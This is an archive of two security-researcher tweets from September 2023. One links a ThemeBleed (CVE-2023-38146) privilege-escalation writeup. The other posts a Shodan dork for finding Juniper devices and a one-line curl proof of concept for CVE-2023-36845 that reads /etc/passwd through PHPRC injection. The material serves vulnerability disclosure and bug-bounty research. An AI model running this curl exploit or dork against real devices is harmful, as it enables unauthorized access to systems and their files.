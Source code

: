 # sector7_nl
**https://twitter.com/sector7_nl/status/1707363257730625757 _at 2023-09-28, 11:54:56_**
<blockquote>
You may have read about CVE-2023-38146 (ThemeBleed)'s use for code exec, but did you know that it is just as good for privilege escalation too?

Full details &amp; writeup:
https://t.co/pbnBfmKu9t
</blockquote>

* https://sector7.computest.nl/post/2023-09-getting-system-on-windows-in-style/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>58</code></td>
</tr></table>

---

# zapstiko
**https://twitter.com/zapstiko/status/1707333333292838946 _at 2023-09-28, 09:56:02_**
<blockquote>
finally Juniper - Remote Code Execution 🔥 ( CVE-2023-36845 )  
Shodan Dork : title:"Juniper" http.favicon.hash:2141724739  

Poc: curl &lt;TARGET&gt; -F $'auto_prepend_file="/etc/passwd\n"' -F 'PHPRC=/dev/fd/0'

#bugbountytips #bugbounty #CVE-2023-36845 #RCE https://t.co/FbXzJzcxHW
</blockquote>

<table><tr>
<td><img src="pictures/98fc07f083e884523a1ab1281a025a296750659e0cf40f85bd1248212fe92c9d.jpg" alt="98fc07f083e884523a1ab1281a025a296750659e0cf40f85bd1248212fe92c9d.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>110</code></td>
<td>Favorites: <code>293</code></td>
</tr></table>

---